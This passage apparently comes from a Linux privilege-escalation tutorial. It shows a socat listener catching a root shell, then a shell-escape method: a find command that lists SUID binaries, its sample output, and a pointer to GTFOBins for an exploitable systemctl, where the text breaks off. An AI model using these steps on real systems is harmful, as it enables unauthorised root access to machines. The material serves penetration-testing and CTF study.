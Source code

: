         socat file:`tty`,raw,echo=0 tcp-listen:12345
        

If we successfully complete all those steps we get root power of target machine like that :

    socat file:`tty`,raw,echo=0 tcp-listen:12345
    /bin/sh: 0: can't access tty; job control turned off
    #id
    uid=0(root) gid=0(root) groups=0(root)
    #whoami
    root


# 🔥06: Root Privilegers using Shell Escape Sequences :

# Step 01 : Use given below command
            find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
# Check result and analyse properly
           -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
           -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
           -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
           -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
           -rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
           -rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
           -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
           -rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
           -rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
           -rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
           -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
           -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
           -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
           -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
           -rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
           -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
           -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
           -rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su

           -rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
           -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
           -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
           -rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs


# Step 3 : Go to GTFOBins website and choice escape shell according to your result
      
### Example :
if -rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl is vulnerable follow given below steps
              
